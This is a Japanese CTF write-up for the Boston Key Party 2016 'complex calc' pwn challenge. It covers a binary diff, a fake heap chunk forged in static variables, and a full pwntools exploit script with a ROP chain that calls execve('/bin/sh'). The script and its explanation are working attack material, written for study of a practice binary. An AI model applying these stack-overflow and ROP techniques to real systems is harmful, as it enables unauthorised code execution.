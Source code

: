 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/boston-key-party-2016-complex-calc/
  - /blog/2017/03/07/boston-key-party-2016-complex-calc/
date: "2017-03-07T15:50:38+09:00"
tags: [ "ctf", "writeup", "pwn", "boston-key-party-ctf", "heap" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/complex-calc-5" ]
---
```


# Boston Key Party CTF 2016: complex calc

適当にそれっぽくしてたらいつの間にか解けた。

## problem

[Boston Key Party CTF 2016: simple calc](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/simple-calc-5)の続き。

バイナリはほぼ一致していて、以下だけが異なる。
これによりstackが壊れた後の`free(buf);`を`free(NULL);`にしてやり過ごすことができない。

```
$ diff <(objdump -d -M intel simple-calc) <(objdump -d -M intel complex-calc)
2c2
< simple-calc:     file format elf64-x86-64
---

# Boston Key Party CTF 2016: complex calc
> complex-calc:     file format elf64-x86-64
22761,22762c22761,22762
<   4156e0:	48 85 ff             	test   rdi,rdi
<   4156e3:	0f 84 af 00 00 00    	je     415798 <__cfree+0xc8>
---

# Boston Key Party CTF 2016: complex calc
>   4156e0:	0f 1f 00             	nop    DWORD PTR [rax]
>   4156e3:	66 0f 1f 44 00 00    	nop    WORD PTR [rax+rax*1+0x0]
```

## solution

addressが既知な適当な位置に`free`に渡せるchunkっぽい構造を作る必要がある。

書き込みが可能のそのような空間は計算の仮定で使われる以下の静的変数のみである。
ここに作る。

``` c
int add [3]; // 0x6c4a80
int divv[3]; // 0x6c4a90
int mul [3]; // 0x6c4aa0
int sub [3]; // 0x6c4ab0
```

まず先頭の`add`に$33$ (chunk size $32$byte + `PREV_INUSE` bit $1$)を書き込む。
次のchunkが位置することになる`divv`, `mul`, `sub`のあたりは、`PREV_INUSE`を真にするため適当な奇数で埋めておく。
これで通る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='complex-calc')
args = parser.parse_args()
context.log_level = args.log_level
elf = ELF(args.binary)

# int add [3]; 0x6c4a80
# int divv[3]; 0x6c4a90
# int mul [3]; 0x6c4aa0
# int sub [3]; 0x6c4ab0

# p = remote(args.host, args.port)
p = process(args.binary)
p.recvuntil('Expected number of calculations: ')
p.sendline('255')
def calc(op, x, y):
    p.recvuntil('=> ')
    p.sendline(str({ '+': 1, '-': 2, '*': 3, '/': 4 }[op]))
    p.recvuntil('Integer x: ')
    p.sendline(str(x))
    p.recvuntil('Integer y: ')
    p.sendline(str(y))
def write64(value):
    for z in [ u32(p64(value)[:4]), u32(p64(value)[4:]) ]:
        for x in range(0x100):
            y = (x - z) % 0x100000000
            if x >= 40 and y >= 40:
                calc('-', x, y)
                break
        else:
            assert False

write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(0x6c4a90) # free
write64(u64('AAAAAAAA'))
write64(1) # rbp

# write /bin/sh
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000 - 8)
write64(0x44db34) # pop rax ; ret
write64(u64('/bin/sh\0'))
write64(0x40dc26) # mov qword ptr [rdi + 8], rax ; ret

# sys_execve
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000)
write64(0x401c87) # pop rsi ; ret
write64(0)
write64(0x437a85) # pop rdx ; ret
write64(0)
write64(0x44db34) # pop rax ; ret
write64(59) # sys_execve
write64(0x4648e5) # syscall

# make chunk
calc('+', 40+33, -40)
calc('-', 41, 41)
calc('/', 41, 41)
calc('*', 41, 41)

p.recvuntil('=> ')
p.sendline('5')
time.sleep(1)
p.sendline('id')
p.interactive()
```
